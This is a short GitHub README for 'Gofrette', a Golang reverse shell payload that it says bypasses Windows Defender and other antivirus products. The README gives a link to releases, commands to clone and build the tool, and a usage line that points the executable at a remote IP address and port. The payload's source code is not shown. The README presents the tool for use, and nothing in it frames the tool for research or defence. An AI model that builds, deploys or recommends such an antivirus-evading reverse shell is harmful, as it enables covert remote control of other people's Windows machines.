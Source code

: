 
<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="https://cdn-icons-png.flaticon.com/512/1076/1076284.png"> </a>
</p>


# Gofrette

Gofrette is a reverse shell payload developed in Golang that bypasses Windows defender and many others anti-virus.


## Installation
### Releases
https://github.com/Enelg52/Gofrette/releases
### Build your own version :
```bash
git clone https://github.com/Enelg52/Gofrette.git
cd gofrette
go build gofrette.go
```

## Usage

```bash
.\gofrette.exe -a [ipadress] -p [port]
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
